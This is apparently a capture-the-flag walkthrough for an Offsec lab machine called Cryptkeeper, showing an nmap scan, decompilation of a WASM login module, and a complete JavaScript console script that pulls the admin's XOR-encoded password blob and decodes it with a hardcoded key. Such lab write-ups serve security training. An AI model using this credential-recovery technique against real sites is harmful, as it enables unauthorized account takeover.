



Offsec - Cryptkeeper - Walktrough
Reconnaissance
Let's start with an nmap scan

sudo nmap -p- <IP>It shows port 80 (http) and 22 (ssh) are open. A version scan is not needed here.
Enumeration
I opened the webpage and landed on a login page:

Looking at the source code, I found a WASM script, and application.js, both containing login logic
I downloaded the WASM script and then decompiled the downloaded file using WABT: The WebAssembly Binary Toolkit
I downloaded WABT to my kali machine:
└─$ wget https://github.com/WebAssembly/wabt/releases/download/1.0.41/wabt-1.0.41-linux-x64.tar.gzAnd then de-compiled it to C:
└─$ ./wasm2c authentication.wasmI read through both the decompile WASM and application.js. This is the authentication process:
- 1. You type a username into the login form
- 2. The browser asks the server: "Give me the encoded password for this username"
- 3. The server responds with a XOR-encoded blob containing the password of the username you entered, concatenated with the username itself
- 4. The browser decrypts the blob
- 5. The browser compares the decrypted result to the password you typed
- 6. If they match -> login succeeds, a token gets sent to the server
Now, what's so dangerous, is that step 4 and 5 are executed in the browser. Thus, we control that process. Also, the XOR-key to decrypt the blob is hardcoded into WASM binary. It gets loaded into memory at startup and is trivially recoverable by anyone who decompiles the file. Because we control this process, we can simply ask the server for the encoded blob, decode it ourselves using the key we extracted from the WASM binary, and read the plaintext password directly, without ever needing to guess it.
I got help of AI during the process of reverse engineering the WASM binary
and crafting the following javascript-script.
This script decodes the returned XOR-encoded blob inside the console:
Javascript XOR decoder
//Get encoded blob of the admin user
var xhr = new XMLHttpRequest();
xhr.open("GET", "/loginUser?user=admin", false);
xhr.send(null);
var cp = xhr.responseText;
console.log("Full CP:", cp, "Length:", cp.length);
//Decode the XOR-encoded blob using the hardcoded XOR-key
//The key is written in HEX for readability
const key = [0x41,0x29,0x9F,0x13,0x45,0x42,0x88,0xFC,0xB8,0xD6,0xD0,0x5D,0x30,0xF6,0x12,0xCF];
let decoded = "";
for (let i = 0; i < cp.length; i += 2) {
const byte = parseInt(cp.substring(i, i+2), 16);
decoded += String.fromCharCode(byte ^ key[(i/2) % key.length]);
}
console.log("Decoded:", decoded);
//Last 5 chars should be "admin", rest is the password
console.log("Password:", decoded.slice(0, -5));
console.log("Username suffix:", decoded.slice(-5));
I ran the script in the console at the login page and found the password:

I succesfully logged in using the retreived password:
